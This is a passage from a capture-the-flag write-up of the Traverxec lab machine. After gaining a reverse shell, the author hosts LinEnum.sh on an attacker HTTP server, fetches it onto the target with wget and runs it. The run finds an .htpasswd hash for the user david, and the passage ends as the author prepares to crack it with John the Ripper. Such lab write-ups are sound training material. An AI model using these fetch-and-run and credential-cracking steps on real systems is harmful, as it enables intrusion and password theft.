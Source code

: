 and get a reverse shell as low privilege user www-data.

Let's run an enumeration script. We set up a python HTTP server on our local machine where we have our enumeration scripts

```sh
root@kali:/opt/privesc# python -m SimpleHTTPServer 
Serving HTTP on 0.0.0.0 port 8000 ...
```

Then run **wget** on the remote machine to download the script so we can run it. 

```sh
www-data@traverxec:/tmp$ wget 10.10.14.7:8000/LinEnum.sh
wget 10.10.14.7:8000/LinEnum.sh
--2019-11-19 00:40:10--  http://10.10.14.7:8000/LinEnum.sh
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 45656 (45K) [text/x-sh]
Saving to: 'LinEnum.sh'

LinEnum.sh          100%[===================>]  44.59K   188KB/s    in 0.2s    

2019-11-19 00:40:10 (188 KB/s) - 'LinEnum.sh' saved [45656/45656]
```

Then change mod on the script and run it

```sh
www-data@traverxec:/tmp$ chmod +x LinEnum.sh 
www-data@traverxec:/tmp$ ./LinEnum.sh 
#########################################################                                                                                                      
# Local Linux Enumeration & Privilege Escalation Script #                                                                                                      
#########################################################                                                                                                      
# www.rebootuser.com  
# version 0.971                                                                           
[-] Debug Info 
[+] Thorough tests = Disabled

Scan started at:
Tue Nov 19 00:52:42 EST 2019
```

If we go over the output one thing that will definitely stand out is

```
[-] htpasswd found - could contain passwords:   
/var/nostromo/conf/.htpasswd
david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/
```

we know that david is the user of the machine from the /etc/passwd file, and now we have a password hash belonging to him. So lets crack it! We'll use **John The Ripper** and the popular wordlist "rockyou.txt"
